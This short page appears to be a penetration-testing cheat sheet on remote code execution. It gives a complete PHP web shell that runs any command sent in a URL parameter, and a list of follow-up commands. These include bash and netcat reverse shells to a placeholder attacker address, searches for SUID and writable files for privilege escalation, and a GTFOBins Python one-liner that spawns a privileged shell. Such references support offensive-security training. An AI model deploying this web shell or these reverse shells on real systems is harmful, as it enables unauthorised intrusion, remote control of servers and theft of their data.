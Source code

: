 ```yaml
---
title: Remote Code Execution (RCE)
sidebar_position: 1
---
```


## Get shell (PHP)
```html
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="text" name="command" autofocus id="command" size="50">
<input type="submit" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['command'])) 
    {
        system($_GET['command'] . ' 2>&1'); 
    }
?>
</pre>
</body>
</html>
```



**Commands to try after successful shell upload.**
- `whoami` - Prints the username.
- `pwd` - Prints working directory.
- `ls` - Lists all files in the directory.
- `uname -a` - Gives system information.
- `bash -i >& /dev/tcp/<your-ip>/<port> 0>&1` - Get reverse shell via bash.
- `nc -e /bin/sh <your-ip> <port>` - Get reverse shell via netcat.
- `find / -perm -4000 -type f 2>/dev/null` - Find SUID files. Useful for previlege escalation.
- `find / -writable -type  f 2>/dev/null | grep -v "/proc/"` - Find files with writable permissions. Useful for previlege escalation.

## GTFOBins
- GTFOBins is a curated list of Unix binaries that can be used to bypass local security restrictions in misconfigured systems.

### Python
- SUID files.
    ```
    python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
    ```
- Read more: https://gtfobins.github.io/gtfobins/python/